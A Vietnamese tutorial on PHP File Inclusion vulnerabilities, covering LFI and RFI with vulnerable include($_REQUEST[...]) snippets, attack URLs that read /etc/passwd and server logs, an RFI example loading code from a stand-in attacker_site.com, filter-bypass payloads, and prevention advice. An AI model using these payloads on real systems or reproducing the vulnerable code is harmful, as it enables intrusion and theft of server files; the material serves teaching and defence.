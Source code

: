 # Lý thuyết
### 1. File inclusion là gì?
Lỗ hổng File Inclusion cho phép tin tặc truy cập trái phép vào những tập tin nhạy cảm trên máy chủ web hoặc thực thi các tệp tin độc hại bằng cách sử dụng chức năng “include”. 
### 2. Nguyên nhân
Lỗ hổng này xảy ra do trong code chứa các lệnh `include`, `require`, `include_once`, `require _ once` mà cơ chế kiểm tra đầu vào không được thực hiện tốt, khiến tin tặc có thể khai thác và chèn các dữ liệu độc hại.
#### Hàm 'Include'
Hàm `Include()` được sử dụng để nhập và thực thi nội dung của một tập tin PHP khác vào tập tin hiện tại. Phương thức này được sử dụng nhằm tránh việc code lặp và có thể sử dụng bất kì lúc nào. 
Toàn bộ nội dung trong một file cụ thể sẽ được sao chép vào một file khác chứa lời gọi ‘include’. Lập trình viên thường sử dụng hàm include() nhằm thêm những dữ liệu, tệp tin mã nguồn dùng chung của các tệp tin trong ứng dụng.

**Ví dụ:**
Có một file footer `footer.php` như sau:

```html=
<?php
echo "<p>Copyright &copy; 2023-" . date("Y") . " KCSC</p>";
?>
```
Phần footer này có thể được sử dụng lại trong tất cả các trang của ứng dụng bằng cách sử dụng hàm `Include()`, như file `home.php` sau:
```html=
<html>
<body>

<h1>Welcome to my home page!</h1>
<p>Some text.</p>
<p>Some more text.</p>
<?php include 'footer.php';?>

</body>
</html>
```
Ở đoạn mã trên, file `footer.php` đã được bao hàm trong file `home.php`. Lúc này, khi truy cập tới `home.php`, file `footer.php` cũng sẽ được sao chép và thực thi. 

### 3. LFI và RFI
#### 3.1. Local File Inclusion (LFI)
Lỗ hổng Local file inclusion nằm trong quá trình include file cục bộ có sẵn trên server. Lỗ hổng xảy ra khi đầu vào người dùng chứa đường dẫn đến file bắt buộc phải include.
Khi đầu vào này không được kiểm tra, tin tặc có thể sử dụng những tên file mặc định và truy cập trái phép đến chúng, tin tặc cũng có thể lợi dụng các thông tin trả về trên để đọc được những tệp tin nhạy cảm trên các thư mục khác nhau bằng cách chèn các ký tự đặc biệt như “/”, “../”, “-“.
Lỗi này xảy ra thường sẽ khiến website bị lộ các thông tin nhảy cảm như là `passwd`, `php.ini`, `access_log`,`config.php`…

**Ví dụ:**
1. Đường dẫn sau có thể bị tấn công LFI: 
    > https://victim_site/abc.php?file=userinput.txt
2. Giá trị của biến `file` được truyền vào đoạn mã php dưới đây:
    `<?php…include $_REQUEST['file'];…?>`
3. Tin tặc sẽ đưa mã độc vào biến `file` để truy cập trái phép vào file trong cùng chủ mục hoặc sử dụng kí tự duyệt chỉ mục như `../` để di chuyển đến chỉ mục khác. 
    Ví dụ tin tặc lấy được log bằng cách cung cấp đầu vào `/apache/logs/error.log` hoặc `/apache/logs/access.log` hay việc đánh cắp dữ liệu liên quan đến tài khoản của người dùng thông qua `../../etc/passw`d trên hệ thống Unix.

#### 3.2. Remote File Inclusion
RFI cho phép tin tặc include và thực thi trên máy chủ mục tiêu một tệp tin được lưu trữ từ xa. Tin tặc có thể sử dụng RFI để chạy một mã độc trên cả máy của người dùng và phía máy chủ. Ảnh hưởng của kiểu tấn công này thay đổi từ đánh cắp tạm thời session token hoặc các dữ liệu của người dùng cho đến việc tải lên các webshell, mã độc nhằm đến xâm hại hoàn toàn hệ thống máy chủ.

**Ví dụ:**
1. Đường dẫn sau có thể bị tấn công RFI:
    > https://www.victim_site.com/abc.php?testfile=example
2. Mã nguồn PHP chứa lỗ hổng
    `Include($_REQUEST['testfile'].'.php');`
3. Biến `testfile` được lấy từ phía người dùng. Đoạn mã trên lấy giá trị biến `testfile` và trực tiếp include nó vào file PHP hiện hành.
    Ví dụ về hướng tấn công:
`www.victim_site.com/abc.php?testfile=https://www.attacker_site.com/attack_page
`
    File `attack_page` được bao hàm vào trang có sẵn trên máy chủ và thực thi mỗi khi trang “abc.php” được truy cập. Tin tặc sẽ đưa mã độc vào “attack_page” và thực hiện hành vi độc hại.

### 4. Một số cách bypass

* Null Byte Injection
    Thêm ký tự null sau tên tệp giúp vô hiệu hoá phần extension `.php`.
    VD: `http://example.com/index.php?file=../../../etc/passwd%00
    `
* Path and dot truncation
    Hầu hết các phiên bản PHP giới hạn độ dài tên tệp là 4096 bytes. Nếu dài hơn, PHP sẽ cắt bớt phần vượt quá giới hạn. Kẻ tấn công có thể lợi dụng điều này để bỏ qua phần extension `.php`.
    VD: 
    ```
    http://example.com/index.php?page=../../../etc/passwd............[ADD MORE]
    http://example.com/index.php?page=../../../etc/passwd\.\.\.\.\.\.[ADD MORE]
    http://example.com/index.php?page=../../../etc/passwd/./././././.[ADD MORE] 
    http://example.com/index.php?page=../../../[ADD MORE]../../../../etc/passwd
    ```

* Encoding
    VD:
    ```
    http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
    http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00
    ```

* Double encoding
    VD:
    ```
    http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
    http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
    ```

* PHP Wrappers
    * PHP Filter
    VD: 
    ```
    http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
    http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
    http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
    http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
    ```
    Ngoài ra còn có các loại wrappers khác như `PHP Zip`, `PHP Data`, `PHP Expect`.


### 5. Cách phòng chống File Inclusion
Lỗ hổng xảy ra khi việc kiểm tra đầu vào không được chú trọng. Khuyến cáo riêng thì không nên hoặc hạn chế tới mức tối thiểu phải sử dụng các biến từ “User Input” để đưa vào hàm include hay eval.  Trong trường hợp phải sử dụng. với các thông tin được nhập từ bên ngoài, trước khi đưa vào hàm cần được kiểm tra kỹ lưỡng.
1. Chỉ chấp nhận kí tự và số cho tên file (A-Z 0-9). Blacklist toàn bộ kí tự đặc biệt không được sử dụng.
2. Giới hạn API cho phép việc include file từ một chỉ mục xác định nhằm tránh directory traversal.
3. Sử dụng danh sách trắng cho các file extension được cho phép.
4. Set `allow_url_fopen` và `allow_url_include` thành off để giới hạn việc có thể gọi các tệp tin từ xa.